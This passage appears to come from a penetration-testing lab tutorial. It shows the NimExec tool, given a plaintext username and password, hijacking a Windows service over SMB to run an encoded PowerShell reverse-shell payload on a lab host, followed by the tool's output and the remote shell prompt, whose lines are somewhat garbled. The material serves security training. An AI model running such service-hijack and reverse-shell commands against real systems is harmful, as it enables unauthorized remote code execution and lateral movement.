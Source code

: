 ```powershell
PS C:\Tools> .\NimExec -u helen -d inlanefreight.local -p RedRiot88 -t 172.20.0.52 -c "cmd.exe /c powershell -e JABjAGwAaQBlAG...SNIP...AbwBzAGUAKAApAA==" -v

                                                                                             _..._
                                                                                          .-'_..._''.
   _..._   .--. __  __   ___         __.....__                          __.....__       .' .'      '.\
 .'     '. |__||  |/  `.'   `.   .-''         '.                    .-''         '.    / .'
.   .-.   ..--.|   .-.  .-.   ' /     .-''"'-.  `.                 /     .-''"'-.  `. . '
|  '   '  ||  ||  |  |  |  |  |/     /________\   \ ____     _____/     /________\   \| |
|  |   |  ||  ||  |  |  |  |  ||                  |`.   \  .'    /|                  || |
|  |   |  ||  ||  |  |  |  |  |\    .-------------'  `.  `'    .' \    .-------------'. '
|  |   |  ||  ||  |  |  |  |  | \    '-.____...---.    '.    .'    \    '-.____...---. \ '.          .
|  |   |  ||__||__|  |__|  |__|  `.             .'     .'     `.    `.             .'   '. `._____.-'/
|  |   |  |                        `''-...... -'     .'  .'`.   `.    `''-...... -'       `-.______ /
|  |   |  |                                        .'   /    `.   `.                               `
'--'   '--'                                       '----'       '----'

                                            @R0h1rr1m

[+] Connected to 172.20.0.52:445
[+] NTLM Authentication with Hash is succesfull!
[+] Connected to IPC Share of target!
[+] Opened a handle for svcctl pipe!
[+] Binded to the RPC Interface!
[+] RPC Binding is acknowledged!
[+] SCManager handle is obtained!
[+] Number of obtained services: 208
[+] Selected service is AppMgmt
[+] Service: AppMgmt is opened!
[+] Previous Service Path is: C:\Windows\system32\svchost.exe -k netsvcs -p
[+] Service config is changed!
[!] StartServiceW Return Value: 1053 (ERROR_SERVICE_REQUEST_TIMEOUT)
[+] Service start request is sent!
[+] Service config is restored!
[+] Service handle is closed!
[+] Service Manager handle is closed!
[+] SMB is closed!
[+] Tree is disconnected!
[+] Session logoff!

```

Once we execute the tool with the above parameters, we are going successfully establish a reverse shell connection:


[SRV02]: PS C:\Users\helen\Documents>
[SRV02.inlanefreight.local]: PS C:\Users\Leonvqz\Documents> hostname
[srv02.inlanefreight.local]: PS C:\Users\Helen\Documents>